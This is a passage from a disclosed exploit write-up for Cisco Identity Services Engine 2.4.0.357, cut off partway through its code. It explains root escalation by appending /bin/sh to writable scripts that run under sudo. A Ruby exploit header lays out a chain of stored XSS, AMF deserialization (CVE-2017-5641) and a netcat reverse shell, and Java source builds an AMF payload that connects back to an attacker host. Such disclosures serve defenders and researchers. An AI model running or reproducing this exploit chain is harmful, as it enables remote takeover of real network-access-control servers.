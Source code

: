 All of the files above are writeable by the iseadminportal user. This makes it trivial to perform privilege escalation to root. All that is needed to do is to edit the files, and add a “/bin/sh” to the second and / or last line, then run the script as sudo to get a root shell.

Exploit

```ruby
#!/usr/bin/ruby
=begin
Exploit for Cisco Identify Services Engine (ISE), tested on version 2.4.0.357
CVE-TODO
By Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security,
and Dominik Czarnota (dominik.b.czarnota@gmail.com)
This exploit starts by abusing a stored cross scripting to deploy malicious Javascript to /admin/LiveLogSettingsServlet.
The Javascript contains a binary payload that will cause a XHR request to the AMF endpoint on the ISE server, which is vulnerable to CVE-2017-5641 (Unsafe Java AMF deserialization), leading to remote code execution as the iseadminportal user.
This AMF deserialization can only be triggered by an authenticated user, hence why the stored XSS is necessary.
The exploit will wait until the server executes the AMF deserialization payload and spawn netcat to receive a reverse shell from the server.
Once we have code execution as the unprivileged iseadminportal user, we can edit various shell script files under /opt/CSCOcpm/bin/ and run them as sudo, escalating our privileges to root.
This exploit has only been tested in Linux. The two jars described below are required for execution of the exploit, and they should be in the same directory as this script.
==
ysoserial.jar - get the latest version from https://github.com/frohoff/ysoserial/releases
acsFlex.jar - build the following code as a JAR:
import flex.messaging.io.amf.MessageBody;
import flex.messaging.io.amf.ActionMessage;
import flex.messaging.io.SerializationContext;
import flex.messaging.io.amf.AmfMessageSerializer;
import java.io.*;
public class ACSFlex {
    public static void main(String[] args) {
        Object unicastRef = generateUnicastRef(args[0], Integer.parseInt(args[1]));
        // serialize object to AMF message
        try {
            byte[] amf = new byte[0];
            amf = serialize((unicastRef));
            DataOutputStream os = new DataOutputStream(new FileOutputStream(args[2]));
            os.write(amf);
            System.out.println("Done, payload written to " + args[2]);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    public static Object generateUnicastRef(String host, int port) {
        java.rmi.server.ObjID objId = new java.rmi.server.ObjID();
        sun.rmi.transport.tcp.TCPEndpoint endpoint = new sun.rmi.transport.tcp.TCPEndpoint(host, port);
        sun.rmi.transport.LiveRef liveRef = new sun.rmi.transport.LiveRef(objId, endpoint, false);
        return new sun.rmi.server.UnicastRef(liveRef);
    }
    public static byte[] serialize(Object data) throws IOException {
        MessageBody body = new MessageBody();
        body.setData(data);
        ActionMessage message = new ActionMessage();
        message.addBody(body);
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        AmfMessageSerializer serializer = new AmfMessageSerializer();
        serializer.initialize(SerializationContext.getSerializationContext(), out, null);
        serializer.writeMessage(message);
        return out.toByteArray();
```